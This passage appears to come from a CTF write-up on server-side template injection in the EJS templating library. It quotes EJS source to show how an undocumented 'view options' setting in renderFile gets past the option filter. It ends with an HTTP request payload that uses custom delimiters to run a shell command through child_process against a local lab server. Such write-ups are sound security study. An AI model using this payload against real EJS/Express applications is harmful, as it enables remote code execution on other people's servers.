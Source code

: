 ### Undocumented EJS shallowCopy

The final illumination comes from this EJS Server Side Template Injection writeup [^7] which exploited prototype pollution in the library.

[^7]: https://eslam.io/posts/ejs-server-side-template-injection-rce/

The article digs down into the EJS source code, showing why the `data` and the `options` are merged, but most importantly, pointing us to an **old undocumented feature** that we can still use in the later version: the `view options`.

```js
var _OPTS_PASSABLE_WITH_DATA = ['delimiter', 'scope', 'context', 'debug', 'compileDebug',
  'client', '_with', 'rmWhitespace', 'strict', 'filename', 'async'];
...
exports.render = function (template, d, o) {
  var data = d || {};
  var opts = o || {};

  // No options object -- if there are optiony names
  // in the data, copy them to options
  if (arguments.length == 2) {
    utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA);
  }

  return handleCache(opts, template)(data);
};
...
exports.renderFile = function () {
	...
	// Undocumented after Express 2, but still usable, esp. for
	// items that are unsafe to be passed along with data, like `root`
	viewOpts = data.settings['view options'];
	if (viewOpts) {
	    utils.shallowCopy(opts, viewOpts);
	}
...
```

Migrating from Express 2.x to 3.x [^8], the `view options` mutated into `app.locals`, but was not removed from the source code!

[^8]: https://github.com/expressjs/express/wiki/Migrating-from-2.x-to-3.x

>[!bug] Undocumented dangerous shallowCopy
>By calling the `renderFile` function and passing a single object containing a `settings` property containing itself the `view options` property, we can bypass the `_OPTS_PASSABLE_WITH_DATA` filter and overwrite all the properties we want.

At this point, we can create a template that uses custom delimiters containing a simple command execution, so that the `while` loop searching for the single allowed placeholder is bypassed:

```http
POST /template
Host: 127.0.0.1:9086
Content-Type: application/x-www-form-urlencoded

tmpl=foo [.= process.mainModule.require('child_process').execSync('echo pippo').toString() .] bar&name=asd
```


[^1]: https://ejs.co/#docs 
[^2]: https://ejs.co/#docs
[^3]: https://expressjs.com/en/api.html#res.render
[^4]: https://snyk.io/blog/fixing-ejs-rce-vuln/
[^5]: https://github.com/mde/ejs/wiki/Using-EJS-with-Express#passing-opts-with-data
[^6]: https://securitylab.github.com/advisories/GHSL-2021-021-tj-ejs/
[^9]: https://hxp.io/blog/101/hxp-CTF-2022-valentine/